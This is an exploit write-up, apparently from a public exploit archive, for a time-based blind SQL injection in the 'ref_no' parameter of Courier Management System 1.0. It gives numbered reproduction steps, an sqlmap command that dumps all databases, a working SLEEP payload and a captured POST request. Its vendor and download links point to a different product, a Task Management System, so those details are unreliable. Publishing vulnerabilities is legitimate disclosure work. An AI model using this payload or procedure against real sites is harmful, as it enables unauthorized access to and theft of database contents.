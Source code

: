 # Courier Management System 1.0 - 'ref_no' SQL Injection.md
## Exploit Author: Zhaiyi (Zeo)
## Date: 2020-12-11
## Vendor Homepage: https://www.sourcecodester.com/php/14615/task-management-system-using-phpmysqli-source-code.html
## Software Link: https://www.sourcecodester.com/download-code?nid=14615&title=Task+Management+System+using+PHP%2FMySQLi+with+Source+Code
## Affected Version: Version 1
## Category: Web Application

Step 1. Log into application with credentials

Step 2. Click on Branch

Step 3. Select New Branch http://127.0.0.1/index.php?page=new_branch

Step 4. Fill the form  , click on save

Step 5. Capture the request of the ""/ajax.php?action=get_parcel_heistory"" page inburpsute

Step 6. Save request and run sqlmap on request file using command " sqlmap -r request --time-sec=5 --dbs "

Step 7. This will inject successfully and you will have an information disclosure of all databases contents


```
---
Parameter: ref_no (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ref_no=123' AND (SELECT 5575 FROM (SELECT(SLEEP(5)))ngIo) AND
'knst'='knst
---
```

POST
```
POST /ajax.php?action=get_parcel_heistory HTTP/1.1
Host: 10.211.55.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 69
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=7d3o3jettnoe5mlbqbu2r07kv0
Origin: http://10.211.55.4
Referer: http://10.211.55.4/htdocs/index.php?page=track
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

ref_no=123
```

![image](https://user-images.githubusercontent.com/38218756/102035475-67a6c380-3dfb-11eb-9b7d-d2c5f6247461.png)
